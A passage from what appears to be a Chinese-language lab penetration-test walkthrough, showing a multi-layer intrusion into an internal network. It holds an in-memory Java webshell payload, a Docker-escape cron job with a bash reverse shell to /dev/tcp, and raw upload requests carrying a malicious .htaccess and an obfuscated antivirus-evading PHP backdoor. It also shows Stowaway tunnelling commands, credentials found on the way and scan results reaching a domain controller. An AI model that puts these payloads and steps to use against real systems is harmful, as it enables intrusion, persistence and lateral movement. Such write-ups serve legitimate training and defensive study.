ALAAAACAADAJwAmgCeACkAWADrAAIABwAAAhcAAwAJAAAAyirBAHyZAAoqwAB8pwAHKrYAejoEAToFGQQ6BhkFxwBkGQbGAF8sxwBDGQa2AWs6BwM2CBUIGQe+ogAuGQcVCDK2AWwrtgFvmQAZGQcVCDK2AXO+mgANGQcVCDI6BacACYQIAaf/0KcADBkGKyy2ANE6Baf/qToHGQa2AVo6Bqf/nRkFxwAMuwCcWSu3AXS/GQUEtgDXKsEAfJkAGhkFAS22AN+wOge7AJVZGQe2AXe3AXi/GQUqLbYA37A6B7sAlVkZB7YBd7cBeL8AAwAlAHIAdQCcAJwAowCkAJoAswC6ALsAmgADABkAAABuABsAAAC+ABQAvwAXAMEAGwDCACUAxAApAMYAMADHADsAyABWAMkAXQDKAGAAxwBmAM0AaQDOAHIA0gB1ANAAdwDRAH4A0gCBANQAhgDVAI8A1wCVANgAnADaAKQA2wCmANwAswDgALsA4QC9AOIAGgAAAHoADAAzADMBAQECAAgAMAA2AV4BXwAHAHcABwBKAWAABwCmAA0ASgFhAAcAvQANAEoBYQAHAAAAygFFABwAAAAAAMoBXQEEAAEAAADKAWIBYwACAAAAygFkAOEAAwAUALYApwCoAAQAFwCzAWUApgAFABsArwFmAKgABgAoAAAALwAODkMHAHz+AAgHAHwHANMHAHz9ABcHAWcBLPkABQIIQgcAnAsNVAcAmg5HBwCaAAsAAAAIAAMAnACeAJoACAF5ABYAAQAHAAAAJQACAAAAAAAJuwACWbcBelexAAAAAQAZAAAACgACAAAAIQAIACIAAA==';try{clsBase64=classLoader.loadClass('java.util.Base64');clsDecoder=classLoader.loadClass('java.util.Base64$Decoder');decoder=clsBase64.getMethod('getDecoder').invoke(base64Clz);bytecode=clsDecoder.getMethod('decode',clsString).invoke(decoder,bytecodeBase64);}catch(ee){try{datatypeConverterClz=classLoader.loadClass('javax.xml.bind.DatatypeConverter');bytecode=datatypeConverterClz.getMethod('parseBase64Binary',clsString).invoke(datatypeConverterClz,bytecodeBase64);}catch(eee){clazz1=classLoader.loadClass('sun.misc.BASE64Decoder');bytecode=clazz1.newInstance().decodeBuffer(bytecodeBase64);}}clsClassLoader=classLoader.loadClass('java.lang.ClassLoader');clsByteArray=(''.getBytes().getClass());clsInt=java.lang.Integer.TYPE;defineClass=clsClassLoader.getDeclaredMethod('defineClass',[clsByteArray,clsInt,clsInt]);defineClass.setAccessible(true);clazz=defineClass.invoke(classLoader,bytecode,0,bytecode.length);clazz.newInstance();};#{1};\")}","dbSource":"","type":"0"}
```

  
URL：<http://10.10.0.3:18088/jeecg-boot/jmreport/queryFieldBySql>  
密码：Cslbewkahmg  
请求信息：Referer: Hftaa  
  
连接成功

## shiro

在/home/ubuntu/.work/目录下找到源码  
  
脱下来反编译发现了shiro的key  


```
QZIysgMYhG7/CzIJlVpR1g==
```

  
蚁剑[Filter] 注入成功!  
路径：<http://10.10.0.3:18080/favicondemo.ico>  
密码：pass1024  


# docker逃逸

发现在docker环境中  
进行信息收集

```
(root:/) $ df -h
Filesystem                Size      Used Available Use% Mounted on
overlay                 195.4G     20.3G    165.1G  11% /
tmpfs                    64.0M         0     64.0M   0% /dev
tmpfs                     1.9G         0      1.9G   0% /sys/fs/cgroup
shm                      64.0M         0     64.0M   0% /dev/shm
/dev/sda5               195.4G     20.3G    165.1G  11% /dev/tmp
udev                      1.9G         0      1.9G   0% /dev/tmp/dev
tmpfs                     1.9G     16.0K      1.9G   0% /dev/tmp/dev/shm
tmpfs                   388.9M      2.3M    386.7M   1% /dev/tmp/run
tmpfs                     5.0M         0      5.0M   0% /dev/tmp/run/lock
tmpfs                   388.9M     48.0K    388.9M   0% /dev/tmp/run/user/1000
tmpfs                     1.9G         0      1.9G   0% /dev/tmp/sys/fs/cgroup
/dev/loop3              128.0K    128.0K         0 100% /dev/tmp/snap/bare/5
/dev/loop7               91.8M     91.8M         0 100% /dev/tmp/snap/gtk-common-themes/1535
/dev/loop2              346.4M    346.4M         0 100% /dev/tmp/snap/gnome-3-38-2004/119
/dev/loop0              497.0M    497.0M         0 100% /dev/tmp/snap/gnome-42-2204/141
/dev/loop10              64.0M     64.0M         0 100% /dev/tmp/snap/core20/2318
/dev/loop1               65.3M     65.3M         0 100% /dev/tmp/snap/gtk-common-themes/1519
/dev/loop12             349.8M    349.8M         0 100% /dev/tmp/snap/gnome-3-38-2004/143
/dev/sda1               511.0M      4.0K    511.0M   0% /dev/tmp/boot/efi
/dev/loop13              74.3M     74.3M         0 100% /dev/tmp/snap/core22/1380
overlay                 195.4G     20.3G    165.1G  11% /dev/tmp/var/lib/docker/overlay2/011f8a85fb5e0f79c8a6475fde6c75c24866c5af4a3236153472cb3638fc6f05/merged
overlay                 195.4G     20.3G    165.1G  11% /dev/tmp/var/lib/docker/overlay2/011f8a85fb5e0f79c8a6475fde6c75c24866c5af4a3236153472cb3638fc6f05/merged
tmpfs                    64.0M         0     64.0M   0% /dev/tmp/var/lib/docker/overlay2/011f8a85fb5e0f79c8a6475fde6c75c24866c5af4a3236153472cb3638fc6f05/merged/dev
shm                      64.0M         0     64.0M   0% /dev/tmp/var/lib/docker/overlay2/011f8a85fb5e0f79c8a6475fde6c75c24866c5af4a3236153472cb3638fc6f05/merged/dev/shm
tmpfs                     1.9G         0      1.9G   0% /dev/tmp/var/lib/docker/overlay2/011f8a85fb5e0f79c8a6475fde6c75c24866c5af4a3236153472cb3638fc6f05/merged/sys/fs/cgroup
/dev/sda5               195.4G     20.3G    165.1G  11% /etc/resolv.conf
/dev/sda5               195.4G     20.3G    165.1G  11% /etc/hostname
/dev/sda5               195.4G     20.3G    165.1G  11% /etc/hosts
tmpfs                     1.9G         0      1.9G   0% /proc/acpi
tmpfs                    64.0M         0     64.0M   0% /proc/kcore
tmpfs                    64.0M         0     64.0M   0% /proc/keys
tmpfs                    64.0M         0     64.0M   0% /proc/timer_list
tmpfs                     1.9G         0      1.9G   0% /proc/scsi
tmpfs                     1.9G         0      1.9G   0% /sys/firmware
tmpfs                     1.9G         0      1.9G   0% /sys/devices/virtual/powercap
/dev/loop14             505.1M    505.1M         0 100% /dev/tmp/snap/gnome-42-2204/176
/dev/loop15              13.0M     13.0M         0 100% /dev/tmp/snap/snap-store/1113
tmpfs                   388.9M      2.3M    386.7M   1% /dev/tmp/run/snapd/ns
/dev/loop11              38.9M     38.9M         0 100% /dev/tmp/snap/snapd/21759
overlay                 195.4G     20.3G    165.1G  11% /dev/tmp/var/lib/docker/overlay2/3302e6f15a67ca9035d9e67a0f8c0c05125bf62c9c0d34c3577abe81d24dc9f2/merged
overlay                 195.4G     20.3G    165.1G  11% /dev/tmp/var/lib/docker/overlay2/789a59da049aa09d4efa65125dad70e69a67c8b8603482b2be8a559d492308ca/merged
overlay                 195.4G     20.3G    165.1G  11% /dev/tmp/var/lib/docker/overlay2/127a58ff10f994a92186385f3d70a85f7e7176ac811ebfcd5cf42e5c43302b44/merged
/dev/loop8               63.8M     63.8M         0 100% /dev/tmp/snap/core20/2434
/dev/loop16              73.9M     73.9M         0 100% /dev/tmp/snap/core22/1663
/dev/loop5               12.3M     12.3M         0 100% /dev/tmp/snap/snap-store/1216
/dev/loop4               44.4M     44.4M         0 100% /dev/tmp/snap/snapd/23258
```

存在挂载，挂载的是宿主机的目录/dev/tmp  
挂载进行定时任务逃逸

```
touch /dev/tmp/tmp/test.sh
chmod 777 /dev/tmp/tmp/test.sh
cd /dev/tmp/tmp

#!/bin/bash
bash -i >& /dev/tcp/IP/6665 0>&1
bash -c 'bash -i &> /dev/tcp/IP/6665 0>&1'
sh -c 'bash -i &> /dev/tcp/IP/6665 0>&1'

sed -i '$a*/1 * * * * root bash /tmp/test.sh' /dev/tmp/etc/crontab
sed -i '$a*/1 * * * * root /tmp/test.sh' /dev/tmp/etc/crontab
cat /dev/tmp/etc/crontab
```



```
root@wty-virtual-machine:~# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:79:20:bd brd ff:ff:ff:ff:ff:ff
    altname enp2s1
    inet 192.168.80.50/24 brd 192.168.80.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:fe79:20bd/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:01:aa:f6:e8 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:1ff:feaa:f6e8/64 scope link 
       valid_lft forever preferred_lft forever
4: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:0c:29:79:20:c7 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    inet 10.10.0.3/24 brd 10.10.0.255 scope global dynamic ens160
       valid_lft 7181sec preferred_lft 7181sec
    inet6 fe80::20c:29ff:fe79:20c7/64 scope link 
       valid_lft forever preferred_lft forever
5: br-a8cbb2f18fd5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:16:9f:7f:38 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.1/16 brd 172.18.255.255 scope global br-a8cbb2f18fd5
       valid_lft forever preferred_lft forever
    inet6 fe80::42:16ff:fe9f:7f38/64 scope link 
       valid_lft forever preferred_lft forever
8: br-5c4f24880ae8: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:03:7a:17:95 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.1/16 brd 172.19.255.255 scope global br-5c4f24880ae8
       valid_lft forever preferred_lft forever
    inet6 fe80::42:3ff:fe7a:1795/64 scope link 
       valid_lft forever preferred_lft forever
24: veth1543d85@if23: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-a8cbb2f18fd5 state UP group default 
    link/ether 2a:7d:d1:ff:65:8f brd ff:ff:ff:ff:ff:ff link-netnsid 2
    inet6 fe80::287d:d1ff:feff:658f/64 scope link 
       valid_lft forever preferred_lft forever
25: br-2ed9e624a55e: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:4e:f0:45:e7 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.1/16 brd 172.20.255.255 scope global br-2ed9e624a55e
       valid_lft forever preferred_lft forever
    inet6 fe80::42:4eff:fef0:45e7/64 scope link 
       valid_lft forever preferred_lft forever
27: veth2a4ce86@if26: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-2ed9e624a55e state UP group default 
    link/ether da:7a:37:7f:80:1d brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::d87a:37ff:fe7f:801d/64 scope link 
       valid_lft forever preferred_lft forever
29: veth3d33d89@if28: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-2ed9e624a55e state UP group default 
    link/ether be:97:f5:f9:58:a6 brd ff:ff:ff:ff:ff:ff link-netnsid 1
    inet6 fe80::bc97:f5ff:fef9:58a6/64 scope link 
       valid_lft forever preferred_lft forever
131: vethee1b1e6@if130: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-2ed9e624a55e state UP group default 
    link/ether fa:3b:74:1e:5e:62 brd ff:ff:ff:ff:ff:ff link-netnsid 3
    inet6 fe80::f83b:74ff:fe1e:5e62/64 scope link 
       valid_lft forever preferred_lft forever
root@wty-virtual-machine:~#
```

# Stowaway挂第一层代理

VPS

```
./linux_x64_admin -l 9001 -s 123
```

目标机

```
./linux_x64_agent -c IP:9001 -s 123 --reconnect 8
```

# 第一层内网—信息收集

fscan扫一下80网段

```
192.168.80.50:6379 open
192.168.80.50:3306 open
192.168.80.55:445 open
192.168.80.55:139 open
192.168.80.55:135 open
192.168.80.55:80 open
192.168.80.50:22 open
192.168.80.50:18080 open
192.168.80.50:18088 open
[*] OsInfo 192.168.80.55    (Windows Server 2008 R2 Datacenter 7601 Service Pack 1)
[*] NetBios 192.168.80.55   WORKGROUP\WIN-P5VV23D2I7P           Windows Server 2008 R2 Datacenter 7601 Service Pack 1
[*] WebTitle http://192.168.80.55      code:200 len:11     title:None
[*] WebTitle http://192.168.80.50:18088 code:404 len:682    title:HTTP Status 404 – Not Found
[*] WebTitle http://192.168.80.50:18080 code:200 len:1120   title:DocToolkit
[+] mysql 192.168.80.50:3306:root root
[+] Redis 192.168.80.50:6379 unauthorized file:/data/dump.rdb
```

发现还有一个192.168.80.55主机开了80端口  
再收集一下B段

```
[*] LiveTop 192.168.0.0/16   段存活数量为: 12
[*] LiveTop 192.168.10.0/24  段存活数量为: 6
[*] LiveTop 192.168.80.0/24  段存活数量为: 2
[*] LiveTop 192.168.30.0/24  段存活数量为: 1
[*] LiveTop 192.168.56.0/24  段存活数量为: 1
[*] LiveTop 192.168.198.0/24 段存活数量为: 1
[*] LiveTop 192.168.1.0/24   段存活数量为: 1
192.168.10.105:22 open
192.168.10.5:22 open
192.168.10.6:22 open
192.168.10.6:80 open
192.168.10.3:80 open
192.168.80.50:22 open
192.168.10.2:80 open
192.168.10.1:80 open
192.168.56.1:80 open
192.168.1.3:80 open
192.168.80.55:80 open
192.168.80.55:139 open
192.168.80.55:135 open
192.168.1.3:443 open
192.168.10.3:443 open
192.168.80.50:3306 open
192.168.80.55:445 open
192.168.10.2:443 open
192.168.10.1:443 open
192.168.56.1:443 open
192.168.10.5:8080 open
192.168.10.6:8000 open
192.168.80.50:6379 open
192.168.10.6:443 open
192.168.10.5:8090 open
192.168.10.5:8091 open
192.168.10.6:8300 open
192.168.10.6:9080 open
192.168.80.50:18088 open
192.168.80.50:18080 open
[*] WebTitle http://192.168.80.50:18088 code:404 len:682    title:HTTP Status 404 – Not Found
[*] WebTitle http://192.168.10.6       code:301 len:56     title:None 跳转url: https://192.168.10.6/
[*] WebTitle http://192.168.10.2       code:200 len:838    title:None
[*] WebTitle http://192.168.10.3       code:302 len:138    title:302 Found 跳转url: http://192.168.10.3/login
[*] WebTitle http://192.168.80.55      code:200 len:11     title:None
[*] WebTitle http://192.168.10.5:8090  code:404 len:232    title:404 Not Found
[*] NetBios 192.168.80.55   WORKGROUP\WIN-P5VV23D2I7P           Windows Server 2008 R2 Datacenter 7601 Service Pack 1
[*] OsInfo 192.168.80.55    (Windows Server 2008 R2 Datacenter 7601 Service Pack 1)
[*] WebTitle https://192.168.56.1      code:302 len:138    title:302 Found 跳转url: https://192.168.56.1/login
[*] WebTitle http://192.168.56.1       code:302 len:138    title:302 Found 跳转url: http://192.168.56.1/login
[*] WebTitle http://192.168.80.50:18080 code:200 len:1120   title:DocToolkit
[*] WebTitle https://192.168.10.2      code:200 len:838    title:None
[*] WebTitle http://192.168.10.5:8091  code:404 len:232    title:404 Not Found
[*] WebTitle http://192.168.10.3/login code:200 len:1720   title:""
[*] WebTitle https://192.168.1.3       code:302 len:215    title:None 跳转url: https://192.168.1.3/router_password_mobile.asp
[*] WebTitle https://192.168.10.6/     code:200 len:258    title:None
[*] WebTitle http://192.168.10.1       code:302 len:202    title:None 跳转url: http://192.168.10.1/userLogin.asp
[*] WebTitle https://192.168.10.1      code:302 len:203    title:None 跳转url: https://192.168.10.1/userLogin.asp
[*] WebTitle https://192.168.10.6      code:200 len:258    title:None
[*] WebTitle http://192.168.1.3        code:302 len:214    title:None 跳转url: http://192.168.1.3/router_password_mobile.asp
[*] WebTitle https://192.168.10.3      code:302 len:138    title:302 Found 跳转url: https://192.168.10.3/login
[*] WebTitle http://192.168.10.5:8080  code:200 len:2939   title:Xcheck
[*] WebTitle http://192.168.56.1/login code:200 len:1720   title:""
[*] WebTitle https://192.168.10.6:9080 code:200 len:0      title:None
[*] WebTitle https://192.168.56.1/login code:200 len:1720   title:""
[*] WebTitle https://192.168.10.1/userLogin.asp code:200 len:23715  title:ER3200G2系统管理
[*] WebTitle https://192.168.10.3/login code:200 len:1720   title:""
[*] WebTitle http://192.168.10.1/userLogin.asp code:200 len:23715  title:ER3200G2系统管理
[+] mysql 192.168.80.50:3306:root root
[*] WebTitle https://192.168.1.3/router_password_mobile.asp code:200 len:12072  title:H3C Magic RT3000&nbsp路由器登录
[*] WebTitle http://192.168.1.3/router_password_mobile.asp code:200 len:12072  title:H3C Magic RT3000&nbsp路由器登录
[+] InfoScan http://192.168.10.1/userLogin.asp [H3C公司产品] 
[+] InfoScan https://192.168.10.1/userLogin.asp [H3C公司产品] 
[+] Redis 192.168.80.50:6379 unauthorized file:/data/dump.rdb
```

Tscan挂上代理，扫描目录  


# 漏洞利用

## 文件上传

虚拟机Proxifier所有流量走sock5代理，然后BurpSuite抓包。  
文件上传可以大小写绕过，但是我不知道这里怎么传上去的，后面再试就不行了。  
  
  
后面发现他只过滤几个危险文件，上传一个.htaccess

```
POST /up.php HTTP/1.1
Host: 192.168.80.55
Content-Length: 383
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.55
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVAb7YHVV1J7YaMvT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.80.55/web.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryVAb7YHVV1J7YaMvT
Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess"
Content-Type: application/octet-stream

<FilesMatch "\.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
------WebKitFormBoundaryVAb7YHVV1J7YaMvT
Content-Disposition: form-data; name="submit"

上传文件
------WebKitFormBoundaryVAb7YHVV1J7YaMvT--
```

  
生成免杀马：<https://github.com/ytMuCheng/ruoji>  
上传2.jpg

```
POST /up.php HTTP/1.1
Host: 192.168.80.55
Content-Length: 3571
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.55
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryA4vRpKSqw7C9qz1z
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.80.55/web.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryA4vRpKSqw7C9qz1z
Content-Disposition: form-data; name="fileToUpload"; filename="2.jpg"
Content-Type: image/jpg

<?php if ($_COOKIE['NnLoB'] == "aaa") {
    $mqUvS='str_';
    $bNMhD=$mqUvS.'replace';
    $npNKy=substr($bNMhD,6);
    $SitQv='zxcszxctzxcrzxc_zxcrzxcezxc';
    if ($_GET['khJEN'] !== $_GET['xPztR'] && @md5($_GET['khJEN']) === @md5($_GET['xPztR'])){
    $oVJRw = 'str_re';
    $SitQv=substr_replace('zxc',$oVJRw,$SitQv);
    }else{die();}
    $npNKy=$SitQv.$npNKy;
    $YGbDJ = $npNKy("m8zEa5WTpldCkXM6e70bsZIucSVJ49RyP1nLiYhKQjABqOrtoG", "", "str_m8zEa5WTpldCkXM6e70bsZIucSVJ49RyP1nLiYhKQjABqOrtoGreplm8zEa5WTpldCkXM6e70bsZIucSVJ49RyP1nLiYhKQjABqOrtoGacm8zEa5WTpldCkXM6e70bsZIucSVJ49RyP1nLiYhKQjABqOrtoGem8zEa5WTpldCkXM6e70bsZIucSVJ49RyP1nLiYhKQjABqOrtoG");
    $epdCO = $YGbDJ("VHuO13jdovRYyGkbiEaBXtMWK0TgxZlzDpUn9mNPILqr67w2c8", "", "baVHuO13jdovRYyGkbiEaBXtMWK0TgxZlzDpUn9mNPILqr67w2c8se64VHuO13jdovRYyGkbiEaBXtMWK0TgxZlzDpUn9mNPILqr67w2c8_VHuO13jdovRYyGkbiEaBXtMWK0TgxZlzDpUn9mNPILqr67w2c8dVHuO13jdovRYyGkbiEaBXtMWK0TgxZlzDpUn9mNPILqr67w2c8eVHuO13jdovRYyGkbiEaBXtMWK0TgxZlzDpUn9mNPILqr67w2c8cVHuO13jdovRYyGkbiEaBXtMWK0TgxZlzDpUn9mNPILqr67w2c8odVHuO13jdovRYyGkbiEaBXtMWK0TgxZlzDpUn9mNPILqr67w2c8eVHuO13jdovRYyGkbiEaBXtMWK0TgxZlzDpUn9mNPILqr67w2c8");
    $KOksF = $epdCO($YGbDJ("K0IcJV8vwCN1qt7nBRO3hLrf4ZmYbp5GMy6WioAegazlsQkjxu", "", "Y3K0IcJV8vwCN1qt7nBRO3hLrf4ZmYbp5GMy6WioAegazlsQkjxuJlYXK0IcJV8vwCN1qt7nBRO3hLrf4ZmYbp5GMy6WioAegazlsQkjxuRlX2K0IcJV8vwCN1qt7nBRO3hLrf4ZmYbp5GMy6WioAegazlsQkjxuZ1K0IcJV8vwCN1qt7nBRO3hLrf4ZmYbp5GMy6WioAegazlsQkjxubK0IcJV8vwCN1qt7nBRO3hLrf4ZmYbp5GMy6WioAegazlsQkjxumNK0IcJV8vwCN1qt7nBRO3hLrf4ZmYbp5GMy6WioAegazlsQkjxu0aW9K0IcJV8vwCN1qt7nBRO3hLrf4ZmYbp5GMy6WioAegazlsQkjxuuK0IcJV8vwCN1qt7nBRO3hLrf4ZmYbp5GMy6WioAegazlsQkjxu"));
    $eBcEm = $epdCO($YGbDJ("JAKmTBsHY32bWM4IQCa1g875y9XOoSkVRUvGPqZueDjEfrxFln", "", "ZXJAKmTBsHY32bWM4IQCa1g875y9XOoSkVRUvGPqZueDjEfrxFlnZhJAKmTBsHY32bWM4IQCa1g875y9XOoSkVRUvGPqZueDjEfrxFlnbCgkJAKmTBsHY32bWM4IQCa1g875y9XOoSkVRUvGPqZueDjEfrxFlnX1BPJAKmTBsHY32bWM4IQCa1g875y9XOoSkVRUvGPqZueDjEfrxFlnU1JAKmTBsHY32bWM4IQCa1g875y9XOoSkVRUvGPqZueDjEfrxFlnRbJJAKmTBsHY32bWM4IQCa1g875y9XOoSkVRUvGPqZueDjEfrxFlnw==JAKmTBsHY32bWM4IQCa1g875y9XOoSkVRUvGPqZueDjEfrxFln"));
    $bIkye = $epdCO($YGbDJ("yi9lsJOXf34c6uhYSazQ0gC2AbmtFE5xMLRVpd7NTnrPwGWjKU", "", "cyi9lsJOXf34c6uhYSazQ0gC2AbmtFE5xMLRVpd7NTnrPwGWjKUmyi9lsJOXf34c6uhYSazQ0gC2AbmtFE5xMLRVpd7NTnrPwGWjKU1FdVyi9lsJOXf34c6uhYSazQ0gC2AbmtFE5xMLRVpd7NTnrPwGWjKUZnyi9lsJOXf34c6uhYSazQ0gC2AbmtFE5xMLRVpd7NTnrPwGWjKUbyi9lsJOXf34c6uhYSazQ0gC2AbmtFE5xMLRVpd7NTnrPwGWjKUEJyi9lsJOXf34c6uhYSazQ0gC2AbmtFE5xMLRVpd7NTnrPwGWjKUBdyi9lsJOXf34c6uhYSazQ0gC2AbmtFE5xMLRVpd7NTnrPwGWjKUGZNYyi9lsJOXf34c6uhYSazQ0gC2AbmtFE5xMLRVpd7NTnrPwGWjKUzB6yi9lsJOXf34c6uhYSazQ0gC2AbmtFE5xMLRVpd7NTnrPwGWjKU"));
    $DOyls = $epdCO($YGbDJ("nDZuApLCsK3WhriUzoeTXqvwJNQ4yIYREB5S7PHFf6GaMk9md1", "", "J10pnDZuApLCsK3WhriUzoeTXqvwJNQ4yIYREB5S7PHFf6GaMk9md1Ow=nDZuApLCsK3WhriUzoeTXqvwJNQ4yIYREB5S7PHFf6GaMk9md1=nDZuApLCsK3WhriUzoeTXqvwJNQ4yIYREB5S7PHFf6GaMk9md1"));
    @$fpqWo = $eBcEm;
    @$$fpqWo = $bIkye;
    @$XSYEf=$fpqWo.$$fpqWo;
    @$lMGie=$XSYEf;
    @$$lMGie=$DOyls;
    @$WgEjN=$lMGie;
    @$nXWVk=$$lMGie;
    @$mfhOP = $KOksF('$kdhuQ,$wgrhc','return "$kdhuQ"."$wgrhc";');
    @$EgWDK=$mfhOP($WgEjN,$nXWVk);
    @$yGCOL = $KOksF("", $EgWDK);
    @$yGCOL();
    } ?>
------WebKitFormBoundaryA4vRpKSqw7C9qz1z
Content-Disposition: form-data; name="submit"

上传文件
------WebKitFormBoundaryA4vRpKSqw7C9qz1z--
```

  
  
  
  
连接成功

## phpMyadmin

这里没爆出账号密码，不知道怎么利用。

# 第二层内网—信息收集

## 杀软信息

  
发现有火绒  
这里就不能上传stowaway到Program Files目录，可以上传到ProgramData目录。

## IP信息

```
C:\ProgramData> ipconfig
Windows IP 配置
以太网适配器 本地连接 2:
   连接特定的 DNS 后缀 . . . . . . . : 
   本地链接 IPv6 地址. . . . . . . . : fe80::a5e5:b3df:5241:dea9%18
   IPv4 地址 . . . . . . . . . . . . : 192.168.81.22
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.81.1
以太网适配器 本地连接:
   连接特定的 DNS 后缀 . . . . . . . : 
   本地链接 IPv6 地址. . . . . . . . : fe80::7168:6330:b3a4:acf3%10
   IPv4 地址 . . . . . . . . . . . . : 192.168.80.55
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.80.1
隧道适配器 isatap.{81F64077-4CE3-4ED0-B8A3-22124C91CB3A}:
   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . : 
隧道适配器 isatap.{038DAB72-5539-4785-BFF0-5DA18E9CFFEE}:
   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . :
```

发现双网卡，继续扫一下192.168.81.0/24

```
192.168.81.20:445 open
192.168.81.22:445 open
192.168.81.20:139 open
192.168.81.22:139 open
192.168.81.20:7001 open
192.168.81.20:135 open
192.168.81.22:135 open
192.168.81.22:80 open
[*] OsInfo 192.168.81.22    (Windows Server 2008 R2 Datacenter 7601 Service Pack 1)
[*] NetBios 192.168.81.22   WORKGROUP\WIN-P5VV23D2I7P           Windows Server 2008 R2 Datacenter 7601 Service Pack 1
[*] WebTitle http://192.168.81.22      code:200 len:11     title:None
[*] NetBios 192.168.81.20   weblogic.c3ting.org                 Windows Server 2012 R2 Datacenter 9600
[*] WebTitle http://192.168.81.20:7001 code:404 len:1164   title:Error 404--Not Found
[+] InfoScan http://192.168.81.20:7001 [weblogic] 
[+] PocScan http://192.168.81.20:7001 poc-yaml-weblogic-cve-2019-2725 v12
```

发现192.168.81.20存活

# Stowaway挂第二层代理

vps

```
(node 0) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 10000
```

目标机

```
windows_x64_agent.exe -c 192.168.80.50:10000 -s 123 --reconnect 8
```

设置代理链  
  
  
发现是Weblogic，直接梭哈  
  
这里不知道为什么内存马死活连不上  
  
然后换了一个工具直接传马，冰蝎能连上，哥斯拉还是连不上...........怎么会这么抽象真崩溃了！！！  


# 第三层内网信息收集

## IP信息

  
发现还有一个192.168.77.25的网段  
上传fscan扫一下77网段

```
192.168.77.250:139 open
192.168.77.25:7001 open
192.168.77.250:445 open
192.168.77.25:445 open
192.168.77.25:139 open
192.168.77.250:135 open
192.168.77.25:135 open
192.168.77.250:88 open
[*] NetInfo 
[*]192.168.77.250
   [->]WIN-LAVRSND6J6N
   [->]192.168.77.250
[*] OsInfo 192.168.77.250   (Windows Server 2012 R2 Standard 9600)
NetBios 192.168.77.250  [+] DC:WIN-LAVRSND6J6N.c3ting.org      Windows Server 2012 R2 Standard 9600
NetBios 192.168.77.25   weblogic.c3ting.org                 Windows Server 2012 R2 Datacenter 9600
[*] WebTitle http://192.168.77.25:7001 code:404 len:1164   title:Error 404--Not Found
[+] InfoScan http://192.168.77.25:7001 [weblogic] 
192.168.77.250:88 open
192.168.77.25:7001 open
192.168.77.250:445 open
192.168.77.25:445 open
192.168.77.250:139 open
192.168.77.25:139 open
192.168.77.250:135 open
192.168.77.25:135 open
192.168.77.250:139 open
192.168.77.250:445 open
192.168.77.25:139 open
192.168.77.25:445 open
192.168.77.250:135 open
192.168.77.25:135 open
192.168.77.250:88 open
192.168.77.25:7001 open
[*] NetInfo 
[*]192.168.77.250
   [->]WIN-LAVRSND6J6N
   [->]192.168.77.250
[*] OsInfo 192.168.77.250   (Windows Server 2012 R2 Standard 9600)
NetBios 192.168.77.25   weblogic.c3ting.org                 Windows Server 2012 R2 Datacenter 9600
NetBios 192.168.77.250  [+] DC:WIN-LAVRSND6J6N.c3ting.org      Windows Server 2012 R2 Standard 9600
